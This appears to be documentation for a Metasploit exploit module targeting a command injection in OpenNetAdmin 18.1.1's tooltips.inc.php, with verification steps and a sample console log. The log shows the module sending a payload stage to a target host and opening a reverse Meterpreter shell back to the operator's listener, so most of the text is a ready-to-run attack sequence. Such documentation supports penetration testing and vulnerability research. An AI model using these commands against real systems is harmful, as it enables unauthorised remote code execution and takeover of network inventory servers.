## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors.
This module exploits a command injection in OpenNetAdmin. The vulnerability exists on the `tooltips.inc.php` component, due to the insecure usage of the `shell_exec()` PHP function.

## Vulnerable Application

This module has been tested with [OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropriate options:
>
> * [ ]  Start `msfconsole`
> * [ ]  `use exploit/unix/webapp/opennetadmin_ping_cmd_injection`
> * [ ]  `set RHOSTS <rhosts>`
> * [ ]  `set LHOST <lhost>`
> * [ ]  `set VHOST <hostname>`
> * [ ]  `exploit`

## Options

### VHOST

The HTTP server virtual host. You will probably need to configure this as well, even though it is set as optional.

## Scenarios

 Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf > use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```

